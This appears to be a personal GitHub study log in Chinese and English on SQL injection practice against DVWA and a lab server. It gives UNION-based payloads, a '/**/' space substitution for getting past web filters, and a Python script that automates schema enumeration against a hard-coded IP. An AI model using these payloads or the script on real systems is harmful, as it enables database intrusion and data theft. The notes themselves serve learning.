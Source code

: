 # SQLi-sum-up
这个仓库是自己学习工程中用来复盘的，因为切换输入法不方便，基本采用英语 来写，看官朋友们遇到不清楚的单词请自行查阅，感谢观看！ 另外，为了让自己方便观看，将采用倒序编写，最新的内容会在最前面 ```
# SQL injection（注入）
```
本篇文章是自己学习工程中用来复盘的，因为切换输入法不方便，基本采用英语
来写，看官朋友们遇到不清楚的单词请自行查阅，感谢观看！
另外，为了让自己方便观看，将采用倒序编写，最新的内容会在最前面
```
## Practice

### DVWA SQLi
> http://43.247.91.228:81/login.php
1. Vulnerability: SQL Injection
- low 
	omited
- middle
	1. get the number of columns, whose payload is:
		> 1 order by 2--
	2. find out  by using UNION SELECT 1,2,3,4...n, 
		and  the payload_id is:
		> 1 UNION SELECT 1,2&Submit=Submit#
		
	3. Fetch data, considering the structure of a classic Mysql_DB:
	
	![sql结构](SQL_STRUCTUTRE.png)
	
	Basic form of payloads should be like 
	
	> ?id=1/**/union/**/SELECT/**/table_schema,table_name/**/FROM/**/information_schema.tables/**/limit/**/2,3
	
	
	by using the tricks below you can gradually form the entire TABLE_NAME and COLUMN_NAME
	
	*** Addtionally, i should emphasize that '/**/' is a sort of replacements of space(' '), which sometimes is able to bypass WAF ***
	
	4. In the 3rd part, it's quite dull and of *LOW efficiency* to fetch data little by little, so i decide to make it AUTOMATIC:
- Python:

> before using, the injection param should be put at the TAIL of url, which is 
> from *?id=1%20UNION%20SELECT%201,user()&Submit=Submit#*  to  *?Submit=Submit&id=1%20UNION%20SELECT%201,user()* 

```
# coding:utf-8
# author:UncleHenry
import requests
from bs4 import BeautifulSoup
import regex as re


def getContent(xurl):
	'''
	@IN:SOUP soup
	@OUT:STR extracted content

	
	#print('soup:'+str(soup))
	'''
	HEADER = {
		'Connection': 'keep-alive',
		'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36"
	}
	SQLI_user_URL = 'http://47.96.138.65:45787/?id=1-1/**/union/**/select/**/database(),1,version(),user()'
	if xurl != None:
		SQLI_user_URL = xurl
		
	session = requests.Session()
	s0 = session.get(SQLI_user_URL)
	soup = BeautifulSoup(s0.content, 'html.parser')
	#可以用print(soup.find_all('center')[len(soup.find_all('center'))-1]) #找到最后一个center，比较特殊
	#print(soup.prettify)
	#用正则，取出最后一个<center>标签中的内容
	m = re.findall(r'<center>(.+?)</center>',str(soup))
	return(m[len(m)-1])
	
	
	
def fuzz_Url(xbasic_url):
	'''
	@IN: str BASIC_URL, like 
	'?id=1-1/**/union/**/select/**/database(),1,version(),'
	@OUT: str FUZZING_URL, like	
	'union/**/SELECT/**/table_schema/**/FROM/**/information_schema.tables'
	return a completed fuzzing URL
	'''
	#fuzz_ITEM = ['database','@@version','user()']
	fuzz_ITEM = ['table_schema']
	fuzz_RANGE = ['information_schema.tables','information_schema.columns']
	return(xbasic_url+' '+fuzz_ITEM[0]+' '+'from'+' '+fuzz_RANGE[0])




def limit_to_fetch_all(n):
	'''
	递归调用
	@IN：int n: STARTS AT 0
	
	@OUT:str: limit n,n+1 --
	'''
	limit = ' limit '+str(n)+','+str(n+1)+' --'
	return(limit)
	#return(' limit '+str(n)+','+str(n+1)+' --')
	# limit n,n+1
	
	
def trim(xstr):
	'''
	bypass waf
	could be DIY
	'''
	return(xstr.replace(" ", "/**/"))



if __name__ == "__main__":

	BASIC_URL = 'http://47.96.138.65:45787/?id=1-1/**/union/**/select/**/database(),1,version(),'
	#print(getContent(visitSite()))
	print("----OK, let's start----")
	for i in range(20):
		xurl = trim(fuzz_Url(BASIC_URL)+limit_to_fetch_all(i))
		try:
			res = getContent(xurl)
			print(res)
		
		except:
			print("----That's all----")
			break
			


	
	
	



```
效果如下：
![](https://henry-wp-backup.oss-cn-shenzhen.aliyuncs.com/Wordpress/WEB_PENETRATION/sqli_fuzz/auto_fuzzing.png?Expires=1558849553&OSSAccessKeyId=TMP.AgEnMPRvFnZWH2pt2zL2a-LiQDzkLXjGUB67M9WdK00USBLurBmvAJr4sWVZADAtAhUA2TeC9aA7vq7Oczv1vzoAkWWIxn4CFFK7JRKD4Po90RmVs7St2MA4mMga&Signature=9tJs2gYLx%2BsVnV06TaSQk6bgSfI%3D)


- 编程心得
	1. python regex
		- findall(r[pattern],String) //extract from string
		- match(r[pattern],String) //match string
	

	
## Reasons of sqli
1. user-provided params which directly connect to db *WITHOUT* filter
	> $_GET
	> $_POST
	> $_REQUEST	
	
2. $result should be seen outside
	> echo($query)
	> echo...


	
